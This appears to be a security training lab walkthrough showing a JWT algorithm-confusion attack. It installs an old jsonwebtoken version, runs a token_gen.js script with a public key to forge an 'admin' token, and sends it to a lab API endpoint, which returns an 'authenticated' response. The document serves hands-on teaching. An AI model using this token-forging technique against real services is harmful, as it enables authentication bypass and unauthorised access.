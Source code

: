 # **Algorithm Confusion**


### *  *

-------

#### Step 1:

* Navigate to the `Algorithm-Confusion` directory on the provisioned server

```commandline
cd /root/container_training/Serverless/Algorithm-Confusion
```

-------

#### Step 2:

* Install the necessary node packages

```commandline
npm install -s jsonwebtoken@4.2.0 colors
```

* Run `token_gen.js` using the `public_key.pem` and `admin` as arguments to tamper with the Algorithm. It should return with a JWT Token

```commandline
node token_gen.js --file public_key.pem --username admin
```

* Using the token fetched in the previous step, send a request to the function

```commandline
http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:<token>
```

### *It should return with a response similar to the one below:*



```commandline
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
Access-Control-Allow-Methods: GET,OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 0
Connection: keep-alive
Content-Length: 114
Content-Type: application/json
Date: Tue, 25 Sep 2018 17:12:14 GMT
Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
X-Amz-Cf-Id: JquwGQ1bb1vr5ev4oFF6R8e5MqbzM-YqyVvEJJKaz7fPN0nRlly3rw==
X-Amzn-Trace-Id: Root=1-5baa6c6d-a196d3961775849ef9a9ffc4;Sampled=1
X-Cache: Miss from cloudfront
X-Success-Request: true
x-amz-apigw-id: NyXhKFUHoAMFscA=
x-amzn-RequestId: 25718e25-c0e6-11e8-86e5-dddb808cd601

{
    "decoded": {
        "iat": 1537880286, 
        "status": "hacked", 
        "username": "admin"
    }, 
    "success": "You are successfully authenticated"
}
```

---------

### Reading Material/References:
